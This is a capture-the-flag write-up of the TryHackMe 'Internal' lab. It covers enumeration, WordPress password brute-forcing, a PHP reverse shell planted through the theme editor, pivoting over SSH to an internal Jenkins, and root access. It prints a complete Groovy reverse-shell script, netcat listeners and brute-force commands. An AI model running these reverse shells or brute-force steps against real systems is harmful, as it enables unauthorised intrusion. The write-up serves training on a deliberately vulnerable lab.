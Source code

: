TryHackMe - Internal | Writeup
Room: Internal
Difficulty: Hard
Created : TheMayor
Writeup by: Sourav Mondal1.
ip : 10.10.59.106
domain: internal.thm

Reconnaissance
Nmap Scan....
nmap -sC -sV -T5 -oN nmap.txt 10.10.59.106
Warning: 10.10.59.106 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.59.106
Host is up (0.24s latency).
Not shown: 976 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Directory and File Enumeration
dirsearch -u http://10.10.59.106/
01   311B   http://10.10.59.106/blog    -> REDIRECTS TO: [http://10.10.59.106/blog/]
200     2KB  http://10.10.59.106/blog/wp-login.php
200    18KB  http://10.10.59.106/blog/
301   317B   http://10.10.59.106/javascript    -> REDIRECTS TO: http://10.10.59.106/javascript/
301   317B   http://10.10.59.106/phpmyadmin    -> REDIRECTS TO: http://10.10.59.106/phpmyadmin/
200     3KB  http://10.10.59.106/phpmyadmin/doc/html/index.html
200     3KB  http://10.10.59.106/phpmyadmin/
200     3KB  http://10.10.59.106/phpmyadmin/index.php
403   277B   http://10.10.59.106/server-status
403   277B   http://10.10.59.106/server-status/
200     2KB  http://10.10.59.106/wordpress/wp-login.php
404    51KB  http://10.10.59.106/wordpress/

visit http://10.10.59.106/blog/ 
Wordpress 

dirsearch -u http://10.10.59.106/blog/
http://10.10.59.106/blog/wp-admin/
http://10.10.59.106/blog/wp-inludes/

 WPScan to enumerate users
 wpscan --url http://10.10.59.106/blog/ -e
Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <============================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

go to this link
 http://10.10.59.106/blog/wp-admin/
 

 wpscan --url http://internal.thm/blog/wp-login.php -U admin -P/usr/share/SecList/Passwords/Leaked-Databases/rockyou.txt
 
Trying admin / bratz1 Time: 00:08:33 <                                                        > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

we found the admin user’s password. login then Appearance clicking on Theme Editor, we are going to replace the 404.php file with a php reverse shell in order to obtain a reverse shell.
we got reverse shell
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.59.106 58852
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:22:04 up 40 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoiam
sh: 1: whoiam: not found
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ 
$ cd home
ls
$ aubreanna
$ cd aubreanna
sh: 4: cd: can't cd to aubreanna
$ sudo su aubreanna
sudo: no tty present and no askpass program specified
$ ls
caubreanna
$ cd ..
sh: 7: ccd: not found
$ cd
ls
$ aubreanna
$ cd /opt
$ ls
containerd
wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123

Now that we have successfully accessed another user’s account, try login ssh

ssh aubreanna@10.10.203.102

aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ 
$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
aubreanna@internal:~$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:d5ff:fe38:c183  prefixlen 64  scopeid 0x20<link>
        ether 02:42:d5:38:c1:83  txqueuelen 0  (Ethernet)

Docker instance running on the target machine with a 172-series IP address. Consequently, Jenkins is hosted within Docker, running on port 8080 and
SSH tunneling technique to forward the Jenkins IP and port from the target machine to our attacker machine’s IP and port.
Success! Now we can log in to the Jenkins page with the valid credentials: “admin: spongebob”
ssh -L 7878:172.17.0.2:8080 aubreanna@10.10.203.102

To gain access to Jenkins, type localhost:[Port Number]  browser:But we need valid credentials to log in… I googled default credentials for Jenkins, and tried admin: password
i can try brute-force the login page with FFUF. For HTTP login pages.Here is the POST request received in Burp Suite. You can right-click on it and save it on a file as well.

“ffuf -request [file name] -request-proto http -w /usr/share/SecList/Passwords/Leaked-Databases/rockyou.txt

 i found valid credentials: “admin: spongebob”
Now  admin access to Jenkins, we can execute commands and, ultimately, exploit this to establish a reverse shell. To do so, we first need to locate a panel where we can write a reverse shell script. Under ‘Manage Jenkins’ > ‘Tools and Actions,’ there is a ‘Script Console’ where we can create our script.

Pure Groovy/Java Reverse Shell

String host="tun0 ip";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
 
that you start a Netcat listener before running this command.

-nc -lvnp 4444


note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123


ssh root@10.10.59.106
root@10.10.59.106's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul 14 13:11:15 UTC 2025

  System load:  0.0               Processes:              111
  Usage of /:   63.7% of 8.79GB   Users logged in:        0
  Memory usage: 36%               IP address for eth0:    10.10.59.106
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}






